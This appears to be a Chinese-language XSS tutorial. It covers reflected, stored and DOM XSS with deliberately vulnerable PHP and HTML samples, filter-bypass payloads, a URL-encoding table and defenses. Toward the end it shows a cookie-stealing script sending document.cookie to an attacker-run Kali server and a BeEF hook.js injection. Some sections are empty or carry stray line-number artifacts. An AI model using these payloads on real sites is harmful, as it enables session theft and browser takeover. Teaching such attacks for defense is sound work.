





# XSS跨站脚本攻击

## 一、概述


XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容

危害：

- 盗取管理员cookie
- XSS蠕虫
- 挂马（水坑攻击）
- 键盘记录等等。。。。。。

### 漏洞验证

我们可以用一段简单的代码，验证和监测漏洞的存在，这样的代码叫做PoC。

验证XSS 漏洞存在的PoC，如下

```js
<script>alert(/xss/)</script>
<script>confirm('xss')</script>
<script>promt('xss')</script>
```

我们可以在检测页面中提交这样的代码，点击提交按钮，就能看到弹框

POC  漏洞的验证与检测

EXP	漏洞的完整利用工具

shellcode 利用漏洞时，所执行的代码

payload 攻击载荷 

​		sqlmap  攻击代码的模板

​		msf 		shellcode 类似  ，功能是建立与目标的连接

练习网站

http://xss-quiz.int21h.jp/    XSS Challenges


## 二、XSS分类

### 1、反射型

反射型xss又称非持久型xss，xss代码出现在url参数或者请求中，浏览器发出请求时，参数值作为输入提交到服务器，`服务器接受处理后`参数值出现在`响应的html中`，最后浏览器解析执行了这段xss代码。

代码

```php
<?php
if (!empty($_GET["name"])){  // 接收前端参数
	echo $_GET["name"];      // 在页面打印参数，浏览器会解析该参数
}
?>

<!DOCTYPE html>

<html>
<head>

	<title></title>
</head>

<body>
<form>
	<input type="text" name="name"> 
	<input type="submit" name="">
</form>
</body>

</html>


```


`服务器接受处理后`参数值出现在`响应的html中`，js代码被执行


带有xss的链接：`http://localhost/xss/fanshe.phpname=666%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

### 2、存储型

存储型xss又称持久型xss，它和反射型最大的区别就是，攻击脚本将被永久地存放在目标的数据库或文件中。

代码

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );"; // 插入到数据库中
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
?>
123456789101112131415161718192021
```


攻击脚本被保存到数据库中

任何一个用户访问到该页面都会弹窗


### 3、DOM型

DOM XSS和反射型和存储型的差别是在于DOM XSS 的代码不需要服务器解析响应的直接参与，出发XSS靠的是浏览器DOM解析器的解析，可以完全认为是客户端的事情。

代码

```html
<!DOCTYPE html>

<html>
<head>

	<title></title>
</head>

<body>
<form>
	<input type="text" name="name"> 
	<input type="submit" name="">
</form>
<script type="text/javascript">
	var temp = document.URL;                       //获取url地址 
	var index = document.URL.indexOf("name=") + 5; // 定位用户输入的参数
	var par = temp.substring(index);               // 截取内容
	document.write(decodeURI(par));                // 解码并输出到页面中
</script>
</body>

</html>


```




## 三、手工挖掘

看url参数输出位置
看输入框输出位置

输出点位置

### 1、输出在标签外（尖括号的外部）



------


### 2、输出到标签中


------


**闭合引号**


> 支持js事件的属性可以部闭合单双引号：onload，onclick 。。。。。。
> 不支持js事件的属性必须要闭合单双引号：class，id 。。。。。。

**不闭合引号，构造事件属性**


```js
<svg onload='alert(123)'>
可以利用/代替空格

我们可以在一些位置添加Tab和回车符，来绕过关键词检索
```


### 3、输出到script标签中

------

案例一需要闭合引号：


案例二输入的内容可以插入到网页中：


### 4、引号尖括号被过滤

8进制 16进制 unicode编码的标签可以被解析还原成为原来的标签


## 四、XSS防御

1. XSS的防御需要根据实际情况对用户的输入进行严格的过滤，基于过滤的CSS防御方式通常分为两种：基于黑名单的过滤和基于白名单的过滤。后者的防御效果往往更好，对于用户在白名单之外的输入，可以直接忽略。在构造白名单的过程中需要保证在不影响用户体验的同时，尽可能杜绝一切不必要的输入内容。
2. 在cookie中加入httponly属性可以在一定程度上保护用户的cookie，减少出现XSS的损失。

[**httponly**](https://www.php.net/manual/zh/function.setcookie.php)

> 设置成 TRUE，Cookie 仅可通过 HTTP 协议访问。 这意思就是 Cookie 无法通过类似 JavaScript 这样的脚本语言访问。 要有效减少 XSS 攻击时的身份窃取行为，可建议用此设置（虽然不是所有浏览器都支持），不过这个说法经常有争议。 PHP 5.2.0 中添加。 TRUE 或 FALSE


js脚本无法获取BDUSS的cookie信息

**如果cookie加了httponly有没有办法获取到？？？**


**后端代码中使用过滤函数**

```php
<?php

echo htmlspecialchars("<>'\"");
echo "<br><br>";
echo addcslashes("'\"'");

?>
1234567
```


对特殊字符进行转义

# XSS编码及绕过原理

## 一、URL编码

url编码：一个百分号和该字符的ASCII编码所对应的2位十六进制数字。
例如："/"的url编码位`%2F`

**URL 防止sql注入**

URL编码平时是用不到的，因为IE会自动将输入到地址栏的非数字字母转换为url编码。曾有人提出数据库名字里带上“#”以防止被下载，因为IE遇到#就会忽略后面的字母。破解方法很简单——用url编码%23替换掉#。现在SQL注射非常流行，所以就有人写了一些防注射的脚本。

**URL 编码对照表**

URL 编码形式表示的 ASCII 字符（十六进制格式）。

十六进制格式用于在浏览器和插件中显示非标准的字母和字符。

URL 编码 - 从 %00 到 %8f

| ASCII Value | URL-encode | ASCII Value | URL-encode | ASCII Value | URL-encode |
| ----------- | ---------- | ----------- | ---------- | ----------- | ---------- |
| æ           | %00        | 0           | %30        | `           | %60        |
|             | %01        | 1           | %31        | a           | %61        |
|             | %02        | 2           | %32        | b           | %62        |
|             | %03        | 3           | %33        | c           | %63        |
|             | %04        | 4           | %34        | d           | %64        |
|             | %05        | 5           | %35        | e           | %65        |
|             | %06        | 6           | %36        | f           | %66        |
|             | %07        | 7           | %37        | g           | %67        |
| backspace   | %08        | 8           | %38        | h           | %68        |
| tab         | %09        | 9           | %39        | i           | %69        |
| linefeed    | %0a        | :           | %3a        | j           | %6a        |
|             | %0b        | ;           | %3b        | k           | %6b        |
|             | %0c        | <           | %3c        | l           | %6c        |
| c return    | %0d        | =           | %3d        | m           | %6d        |
|             | %0e        | >           | %3e        | n           | %6e        |
|             | %0f        | ?           | %3f        | o           | %6f        |
|             | %10        | @           | %40        | p           | %70        |
|             | %11        | A           | %41        | q           | %71        |
|             | %12        | B           | %42        | r           | %72        |
|             | %13        | C           | %43        | s           | %73        |
|             | %14        | D           | %44        | t           | %74        |
|             | %15        | E           | %45        | u           | %75        |
|             | %16        | F           | %46        | v           | %76        |
|             | %17        | G           | %47        | w           | %77        |
|             | %18        | H           | %48        | x           | %78        |
|             | %19        | I           | %49        | y           | %79        |
|             | %1a        | J           | %4a        | z           | %7a        |
|             | %1b        | K           | %4b        | {           | %7b        |
|             | %1c        | L           | %4c        | \|          | %7c        |
|             | %1d        | M           | %4d        | }           | %7d        |
|             | %1e        | N           | %4e        | ~           | %7e        |
|             | %1f        | O           | %4f        |             | %7f        |
| space       | %20        | P           | %50        | €           | %80        |
| !           | %21        | Q           | %51        |             | %81        |
| "           | %22        | R           | %52        | ‚           | %82        |
| #           | %23        | S           | %53        | ƒ           | %83        |
| $           | %24        | T           | %54        | „           | %84        |
| %           | %25        | U           | %55        | …           | %85        |
| &           | %26        | V           | %56        | †           | %86        |
| ’           | %27        | W           | %57        | ‡           | %87        |
| (           | %28        | X           | %58        | ˆ           | %88        |
| )           | %29        | Y           | %59        | ‰           | %89        |
| *           | %2a        | Z           | %5a        | Š           | %8a        |
| +           | %2b        | [           | %5b        | ‹           | %8b        |
| ,           | %2c        | \           | %5c        | Π          | %8c        |
| -           | %2d        | ]           | %5d        |             | %8d        |
| .           | %2e        | ^           | %5e        | Ž           | %8e        |
| /           | %2f        | _           | %5f        |             | %8f        |

URL 编码 - 从 %90 到 %ff

| ASCII Value | URL-encode | ASCII Value | URL-encode | ASCII Value | URL-encode |
| ----------- | ---------- | ----------- | ---------- | ----------- | ---------- |
|             | %90        | À           | %c0        | ð           | %f0        |
| ‘           | %91        | Á           | %c1        | ñ           | %f1        |
| ’           | %92        | Â           | %c2        | ò           | %f2        |
| “           | %93        | Ã           | %c3        | ó           | %f3        |
| ”           | %94        | Ä           | %c4        | ô           | %f4        |
| •           | %95        | Å           | %c5        | õ           | %f5        |
| –           | %96        | Æ           | %c6        | ö           | %f6        |
| —           | %97        | Ç           | %c7        | ÷           | %f7        |
| ˜           | %98        | È           | %c8        | ø           | %f8        |
| ™           | %99        | É           | %c9        | ù           | %f9        |
| š           | %9a        | Ê           | %ca        | ú           | %fa        |
| ›           | %9b        | Ë           | %cb        | û           | %fb        |
| œ           | %9c        | Ì           | %cc        | ü           | %fc        |
|             | %9d        | Í           | %cd        | ý           | %fd        |
| ž           | %9e        | Î           | %ce        | þ           | %fe        |
| Ÿ           | %9f        | Ï           | %cf        | ÿ           | %ff        |
|             | %a0        | Ð           | %d0        |             |            |
| ¡           | %a1        | Ñ           | %d1        |             |            |
| ¢           | %a2        | Ò           | %d2        |             |            |
| £           | %a3        | Ó           | %d3        |             |            |
|             | %a4        | Ô           | %d4        |             |            |
| ¥           | %a5        | Õ           | %d5        |             |            |
| \|          | %a6        | Ö           | %d6        |             |            |
| §           | %a7        |             | %d7        |             |            |
| ¨           | %a8        | Ø           | %d8        |             |            |
| ©           | %a9        | Ù           | %d9        |             |            |
| ª           | %aa        | Ú           | %da        |             |            |
| «           | %ab        | Û           | %db        |             |            |
| ¬           | %ac        | Ü           | %dc        |             |            |
| ¯           | %ad        | Ý           | %dd        |             |            |
| ®           | %ae        | Þ           | %de        |             |            |
| ¯           | %af        | ß           | %df        |             |            |
| °           | %b0        | à           | %e0        |             |            |
| ±           | %b1        | á           | %e1        |             |            |
| ²           | %b2        | â           | %e2        |             |            |
| ³           | %b3        | ã           | %e3        |             |            |
| ´           | %b4        | ä           | %e4        |             |            |
| µ           | %b5        | å           | %e5        |             |            |
| ¶           | %b6        | æ           | %e6        |             |            |
| ·           | %b7        | ç           | %e7        |             |            |
| ¸           | %b8        | è           | %e8        |             |            |
| ¹           | %b9        | é           | %e9        |             |            |
| º           | %ba        | ê           | %ea        |             |            |
| »           | %bb        | ë           | %eb        |             |            |
| ¼           | %bc        | ì           | %ec        |             |            |
| ½           | %bd        | í           | %ed        |             |            |
| ¾           | %be        | î           | %ee        |             |            |
| ¿           | %bf        | ï           | %ef        |             |            |

```
双url编码：对url编码在进行一次编码 %27 -- > %2527
```

## 二、HTML编码


## 三、javascript编码


## 四、各个编码利用场景

### 1、base64编码

Data协议使用方法：`data:资源类型;编码,内容`
例如：

```html
<a href="可控点">
<iframe src="可控点">

在这种情况下如果过滤了<> ' " javascript的话，那么xss可以这样写，利用base64编码！
将或<script>alert(1)</script> 整条base64编码为 PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==和PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
12345
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>
<!--标签一-->
<a href="data:text/html;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">click</a> <!--新版浏览器不在支持-->

<!--标签二-->
<object data="data:text/html;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">click</object> 
<!--
<script>alert(1)</script> 旧版新版火狐及chrome支持
 旧版新版火狐都不知此后，chrome支持
-->

<!--标签三-->
<iframe src="data:text/html;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">click</iframe>
<!--
<script>alert(1)</script> 旧版新版火狐及chrome支持
 新版火狐支持，chrome新版支持旧版不支持
-->
</body>
</html>
123456789101112131415161718192021222324
```

**标签解析原理**


### 2、HTML实体编码(十进制和十六进制)


[十进制编码](https://tool.oschina.net/encode)

```html
 <!--钓鱼 跳转页面-->
	


12345
```




### 3、javascript编码


### 4、URL编码


```sh
1、获取cookie：渗透机：kali
2、构建收集cookie服务器(也用kali)
3、构造xss代码植入到web服务器
4、等待肉鸡触发xss代码并将cookie发送到kali
5、cookie利用
```

```js
ajax xss
```


启动kali的apache2

```sh
systemctl start apache2
#创建一个php文件，目的是收集cookie
vi /var/www/html/cookie_rec.php


<?php
	$cookie = $_GET['cookie'];
	$log =fopen('cookie.txt',"a");
	fwrite($log,$cookie . "\n");
	fclose($log)
?>

#测试，访问这个页面，浏览器输入
http://kali的ip/cookie_rec.php

chmod 777 /var/html  #给他一个权限

#植入xss代码,注意先清除之前植入的xss代码
<script>window.open("http://kali的ip/cookie_rec.php?cookie="+document.cookie)</script>
```


提交后，查看文件是否生成

```sh
cd /var/www/html
#生成文件
cookie.txt
目前里面是没有数据的 ，当前页面没有生成cookie，随便点几个其他页面
```

# BeEF 自动化XSS


## 启动BeEF和apache


新版kali没有安装beef

```sh
sudo apt-get install beef-xss

安装完 输入
beef-xss 打开

通常我们在使用 Linux 系统的时候，一般不会直接使用 root 账户去登录，所以，有的时候执行命令时，会提示下面的错误：

Error: This script must be run as root!
其实解决方案很简单，下面简单介绍两种解决方案。

加关键字
第一种是直接在要执行的命令前方加上 sudo 关键字。

然后系统会提示你输入密码，然后回车即可。

账户beef密码123
http://192.168.83.145:3000/ui/panel


例如：

sudo chmod +x test.sh

切换用户
第二种是直接切换用户即可，可以通过下面的命令切换到 root 用户。

sudo su - root

中途会提示输入密码，然后就会跳到浏览器的登录页面，账号默认beef，密码是你设置的

```

```sh
ss -tnlp 
查看端口号，看看3000 是否只是本地的
显示的是0.0.0.0:3000 代表任意都可以
```

提交

```sh
<script src="http://192.168.83.145:3000/hook.js"></script>
```


